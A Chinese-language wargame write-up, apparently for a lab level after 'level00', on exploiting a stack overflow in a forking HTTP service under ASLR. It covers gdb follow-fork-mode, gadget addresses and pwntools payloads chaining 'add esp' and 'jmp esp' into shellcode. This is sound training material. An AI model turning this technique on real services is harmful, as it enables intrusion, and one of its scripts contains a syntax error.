

### 題目講解
這一題跟level00 的題目比起來少了 `printf("[debug] buffer is at 0x%08x :-)\n", buffer); :D` 這一行，且有開啓ASLR 。

### 所需知識
**網絡服務的進程模型**
```
父进程 (PID 1464)
├─ 监听端口 20001
├─ 等待客户端连接
├─ 收到连接请求时 → fork() 创建子进程
└─ 继续监听新的连接

子进程 (PID 2099) 
├─ 处理具体的HTTP请求
├─ 解析请求内容
├─ 调用 fix_path() 函数 ← 漏洞在这里
└─ 处理完毕后退出
```

**默認情況下**
```
GDB 附加到父进程 (PID 1464)
│
├─ Python 脚本发送攻击载荷
├─ 父进程收到连接 → fork() 子进程
├─ GDB 继续跟踪父进程 ← 问题在这里！
├─ 父进程回到监听状态（没有漏洞代码执行）
└─ 子进程处理请求并触发漏洞 ← 但GDB看不到！
```

**設置 follow-fork-mode child**
```
GDB 附加到父进程 (PID 1464)
│
├─ Python 脚本发送攻击载荷  
├─ 父进程收到连接 → fork() 子进程 (PID 2099)
├─ GDB 自动切换到跟踪子进程 ← 关键！
├─ 子进程执行 fix_path() 函数
└─ 断点被触发！GDB 可以调试漏洞利用过程
```
### 解題目思路
由於題目沒有像上一題泄露buffer 的位置，且ASLR 開啓。我們需要知道哪些寄存器在我們的控制之下。因此我們需要 gdb 來查看各個寄存器的内容。ASLR 開啓意味著buffer 的起始位置每次都會改變。
### 
```
1. ps auwx | grep 20001
2. gdb -q --pid=pid
3. set follow-fork-mode child # 讓gdb 跟對進程
4.  disas fix_path
5. b * 0x08049854 # break ret
6. continue
```
這裏注意一下: break ret, 如果執行完后 esp會 +4(在解題的時候忘記了這裏的 ret 直接卡了5個小時，才明白爲什麽 esp+0x230+0x4-esi)

**測試代碼**
```python
from pwn import *

HOST,PORT = "192.168.246.145",20000
p = remote(HOST,PORT)
payload = flat(
    "GET ",
    "A"*139,
    "B"*4*,
    " HTTP/1.1",
)
p.sendline(payload)
print(p.clean().decode('latin-1'))
p.interactive()
```
接下來 gdb hit 到我們 break 的地方


```
7. i r # 看哪一些寄存器有指向我們控制的寄存器
8. 發現到 esi 總是指向用戶輸入的尾端
```

**發現 gadgets**

```
0x0804905f: add esp, 0x230; pop ebx; pop edi; pop ebp; ret;
0x08049f4f: jmp esp;
```

由於esp 小於 esi，add esp,0x230 可以讓 esp 指向 esi 的後面，因此我們必須對齊
esp+0x4+0x230 - esi = offset


```python
payload = flat(
    "GET /",
    "A"*offset,
    add_esp,
    " HTTP/1.1",
    "B"*offset2,
    "C"*12,
    jmp_esp,
    shellcode
)
```
這樣就成功了